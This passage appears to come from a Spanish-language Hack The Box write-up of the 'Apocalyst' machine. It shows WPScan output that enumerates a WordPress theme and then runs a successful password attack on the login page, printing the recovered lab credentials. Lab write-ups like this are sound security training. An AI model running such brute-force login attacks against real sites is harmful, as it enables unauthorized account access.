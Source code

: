 ```bash
 | Last Updated: 2023-03-29T00:00:00.000Z
 | Readme: http://apocalyst.htb/wp-content/themes/twentyseventeen/README.txt
 | [!] The version is out of date, the latest version is 3.2
 | Style URL: http://apocalyst.htb/wp-content/themes/twentyseventeen/style.css?ver=4.8
 | Style Name: Twenty Seventeen
 | Style URI: https://wordpress.org/themes/twentyseventeen/
 | Description: Twenty Seventeen brings your site to life with header video and immersive featured images. With a fo...
 | Author: the WordPress team
 | Author URI: https://wordpress.org/
 |
 | Found By: Css Style In Homepage (Passive Detection)
 |
 | Version: 1.3 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://apocalyst.htb/wp-content/themes/twentyseventeen/style.css?ver=4.8, Match: 'Version: 1.3'

[+] Enumerating All Plugins (via Passive Methods)

[i] No plugins Found.

[+] Enumerating Config Backups (via Passive and Aggressive Methods)
 Checking Config Backups - Time: 00:00:04 <=================================================> (137 / 137) 100.00% Time: 00:00:04

[i] No Config Backups Found.

[+] Performing password attack on Wp Login against 1 user/s
[SUCCESS] - falaraki / Transclisiation                                                                                          
Trying falaraki / total Time: 00:01:01 <=====================                                > (335 / 821) 40.80%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: falaraki, Password: Transclisiation

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Fri Jul 21 19:30:26 2023
[+] Requests Done: 508
[+] Cached Requests: 5
[+] Data Sent: 155.396 KB
[+] Data Received: 1.607 MB
[+] Memory used: 275.102 MB
[+] Elapsed time: 00:01:15
```

Tenemos credenciales `falaraki:Transclisiation`
